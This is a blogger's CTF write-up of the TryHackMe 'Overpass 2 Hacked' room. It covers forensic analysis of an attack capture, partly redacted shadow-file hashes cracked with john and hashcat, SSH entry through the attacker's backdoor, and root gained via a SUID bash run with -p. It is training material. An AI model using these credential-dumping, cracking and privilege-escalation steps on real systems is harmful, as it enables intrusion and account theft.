

OverPass2_hacked.sh
Aug. 30, 2020
THM Room - Overpass 2 Hacked
This is a writeup or another one of my noob friendly(I hope) post-thingy for Overpass 2 hacked TryhackMe’s room. This is a pretty raw writeup detailing all my process to root this room, flaws and all. Yup, I also write down my failed attempts to better illustrate my derailed train of thought.
You have been warned :)
Enjoy!
- Please visit This room on TryHackMe by clicking this link.
- PLEASE NOTE: Passwords and flag values were intentionally redacted as required by THM writeups rules. The write-up follows my step by step solution to this box, errors and all.
[Task 1] Forensics - Analyse the PCAP
[ Task 1 - Question #1]
What was the URL of the page they used to upload a reverse shell?
The room provides a PCAP file that we can analyze. In my case I opened the file with Wireshark.

With this we can answer the first question.
Next question is:
[ Task 1 - Question #2]
What payload did the attacker use to gain access?
We do some further analysis of the pcap file with wireshark. If you look carefully you’ll see there is an upload.php exploitation. If you righ click the packets and select follow->TCP Stream or follow-X-Stream you can see the different steps of the request(prof not a great explanation). The thing is this help us determine the payload that was used:

[ Task 1 - Question #3]
What password did the attacker use to privesc?
If we keep the “trail” of the attack we observe something like this:
- Payload is uploaded using upload.php . The payload.php is then executed
- It creates a reverse shell.
If we follow the TCP stream, we’ll arrive a the netcat plain-text logs:

[ Task 1 - Question #4]
How did the attacker establish persistence?

If keep reviewing the stream we see the tool used by the attacker to gain persistance.
[ Task 1 - Question #5]
Using the fasttrack wordlist, how many of the system passwords were crackable?
If we follow the trail we see the attacker has logged the contents of the shadow file:

sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
ja{REDACTED}s:$6$7GS5e.yv$HqIH5MthpGWpczr{REDACTED}/VuRskugt1{REDACTED}g/:18464:0:99999:7:::
pa{REDACTED}ox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5{REDACTED}iHJPhi4IU7H0:18464:0:99999:7:::
sz{REDACTED}ex:$6$B.EnuXiO$f/u00HosZIO{REDACTED}SX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vs{REDACTED}PUjcXlX/:18464:0:99999:7:::
b{REDACTED}e:$6$.SqHrp6z$B4{REDACTED}jz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
mu{REDACTED}land:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8Kz{REDACTED}Per3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
Let’s save those to a file, and run then through john with the suggested wordlist:
┌──(kali㉿kali)-[~/Documents/THM/overpass2Hacked]
└─$ sudo john --wordlist=/usr/share/wordlists/fasttrack.txt shadow
[sudo] password for kali:
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sec{REDACTED} (bee)
abc{REDACTED} (szymex)
1qa{REDACTED} (muirland)
se{REDACTED} (paradox)
4g 0:00:00:00 DONE (2020-08-30 01:31) 11.42g/s 634.2p/s 3171c/s 3171C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
And with that we get the answer to that last question of Task 1.
[Task 2] Research - Analyse the code
Now that you’ve found the code for the backdoor, it’s time to analyse it.
We’ll let’s see if we can continue our way through this room.
[ Task 2 - Question #1]
What’s the default hash for the backdoor?
Since we know already the script that was downloaded (git cloned) to get access we can take a loot at it. This gives us the default hash that is used for the backdor.

[ Task 2 - Question #2]
What’s the hardcoded salt for the backdoor?
If we look further down the script code we’ll see the default salt being used for the script.

[ Task 2 - Question #3]
What’s the default hash for the backdoor?
By inspecting a bit more we find the default hash set for the backdoor.

[ Task 2 - Question #4]
Crack the hash using rockyou and a cracking tool of your choice. What’s the password?
for this we can run hashcat this time for SHA512 salted hash:
┌──(kali㉿kali)-[~/Documents/THM/overpass2Hacked]
└─$ hashcat -m1710 hash3 /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 7 3800X 8-Core Processor, 10871/10935 MB (4096 MB allocatable), 6MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit
ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Host memory required for this attack: 65 MB
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
6d05358f090eea56a238af02e{REDACTED}c5654019292cbfe0b5e98ad1fec71bed:1c362db832{REDACTED}5f2002a05:{REDACTED}
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea{REDACTED}810ef624028...002a05
Time.Started.....: Sun Aug 30 02:38:10 2020 (0 secs)
Time.Estimated...: Sun Aug 30 02:38:10 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 1089.3 kH/s (0.82ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 12288/14344385 (0.09%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: havana -> tanika
Started: Sun Aug 30 02:38:06 2020
Stopped: Sun Aug 30 02:38:11 2020
With that we have Task 2 completed.
[ Task 3 - Question #1]
The attacker defaced the website. What message did they leave as a heading?
If we deploy the machine and access the ip with the browser we get this:

Since we know the backdoor just requires the password we already cracked, we can connect with SHH on the backdoor’s port.
┌──(kali㉿kali)-[~]
└─$ ssh james@10.10.123.57 -p 2222
The authenticity of host '[10.10.123.57]:2222 ([10.10.123.57]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.123.57]:2222' (RSA) to the list of known hosts.
james@10.10.123.57's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
james@overpass-production:/home/james/ssh-backdoor$
[ Task 3 - Question #3 (#2 needs no answer)]
What’s the user flag?
Once in there we can get the first flag.
james@overpass-production:/home/james/ssh-backdoor$ ls
README.md backdoor.service cooctus.png id_rsa.pub main.go
backdoor build.sh id_rsa index.html setup.sh
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor user.txt www
james@overpass-production:/home/james$ cat user.txt
thm{d11{REDACTED}e6567}
[ Task 3 - Question #4 ]
What’s the root flag?
If we look in james directory we see there is an executable file. However, if we run that file as is we get a bash shell but we still are logged in as james. We need root. Googling a bit there is a mention that if we run bash with -p to get a startup behavior that does not reset the user ID. I need to get back to this and study a bit more man bash contains more details.
james@overpass-production:/home/james$ ls -al
total 1136
drwxr-xr-x 7 james james 4096 Jul 22 03:40 .
drwxr-xr-x 7 root root 4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james 9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 james james 3771 Apr 4 2018 .bashrc
drwx------ 2 james james 4096 Jul 21 00:36 .cache
drwx------ 3 james james 4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james 4096 Jul 22 03:35 .local
-rw------- 1 james james 51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james 807 Apr 4 2018 .profile
-rw-r--r-- 1 james james 0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root root 1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james 4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james 38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james 4096 Jul 21 01:37 www
james@overpass-production:/home/james$ ./.suid_bash
.suid_bash-4.4$ whoami
james
.suid_bash-4.4$ exit
exit
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# ls
ssh-backdoor user.txt www
.suid_bash-4.4# cat /root/root.txt
thm{d53b268{REDACTED}333873144d}
And that was OverPass 2 Hacked from TryHackme Offensive Pentesting Path.
I hope you enjoy it!
As usual, happy hacking.
comments powered by Disqus